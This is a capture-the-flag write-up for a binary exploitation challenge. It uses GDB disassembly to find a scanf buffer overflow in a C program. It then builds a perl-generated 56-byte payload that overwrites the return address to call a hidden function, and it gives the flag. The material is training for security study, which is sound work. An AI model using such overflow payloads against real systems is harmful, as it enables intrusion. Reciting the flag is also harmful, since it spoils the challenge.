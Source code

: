 # Exploded

## Question Text

Here's a program that I made. Seems like it works the way I want it to.

`nc rev.chal.gryphonctf.com 18500`

*Creator - Noans*

## Setup Guide
1. Run `build.sh` in the service folder.

## Distribution
- stolen
    - SHA1: `6c79423c4ee2c70c07fa2ad3eb102e1d1986a5cc`
    - Compiled C binary

## Solution
The program, written in C, is vulnerable to the buffer overflow exploit.

Using GDB, disassembling the main method will give the follow output will tell us that a method called `doStuff` is run. Upon disassembling the `doStuff` method, we will see that is simply a method that prints some text and uses `scanf()` to attain user input.

Knowing this, we can thus attempt to exploit `scanf()` since it is vulnerable to buffer overflow exploits.

Using `info functions` in GDB, we can list all the functions as shown below:
```asm
(gdb) info functions
Non-debugging symbols:
0x00005555555546d8  _init
0x0000555555554700  setbuf@plt
0x0000555555554710  printf@plt
0x0000555555554720  srand@plt
0x0000555555554730  time@plt
0x0000555555554740  setvbuf@plt
0x0000555555554750  __isoc99_scanf@plt
0x0000555555554760  rand@plt
0x0000555555554770  __cxa_finalize@plt
0x0000555555554780  _start
0x00005555555547b0  deregister_tm_clones
0x00005555555547f0  register_tm_clones
0x0000555555554840  __do_global_dtors_aux
0x0000555555554880  frame_dummy
0x000055555555488a  main
0x00005555555548ed  doStuff
0x0000555555554947  interestingFunction
0x000055555555495f  randomOutput
0x00005555555549d0  __libc_csu_init
0x0000555555554a40  __libc_csu_fini
0x0000555555554a44  _fini
```

The output shows us a function called `interestingFunction` that is neither used in the main method or in `doStuff`.

Recalling the previously disassembled `doStuff` method, in the disassembly, we will see a line `0x0000555555554906 <+25>:	lea    -0x30(%rbp),%rax`. This line tells us that the variable used in the scanf method was allocated a space of 48 bytes in the stack. This thus allows us to build our exploit string.

Taking into account that the rbp is 8 bytes, we would need to write a total of 56 bytes before we can override the return address to run the interestingFunction.

Disassembling the `interestingFunction` method, we will see the following output:
```asm
Dump of assembler code for function interestingFunction:
   0x0000555555554947 <+0>:	push   %rbp
   0x0000555555554948 <+1>:	mov    %rsp,%rbp
   0x000055555555494b <+4>:	lea    0x118(%rip),%rdi        # 0x555555554a6a
   0x0000555555554952 <+11>:	mov    $0x0,%eax
   0x0000555555554957 <+16>:	callq  0x555555554710 <printf@plt>
   0x000055555555495c <+21>:	nop
   0x000055555555495d <+22>:	pop    %rbp
   0x000055555555495e <+23>:	retq
End of assembler dump.
```

Thus, our exploit string can be generated with the follow command, account for the 56 bytes we need to write and the address of `interestingFunction` after the first line.

`perl -e 'print "a"x56 . "\x48\x49\x55\x55\x55\x55\x00\x00"'`

This gives us the string `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaHIUUUU`.

With the string generated from the above, we can run `nc <hostname> <port>` and enter the string as input to get the flag.

### Flag
`GCTF{0V3R_7H3_L1M17}`
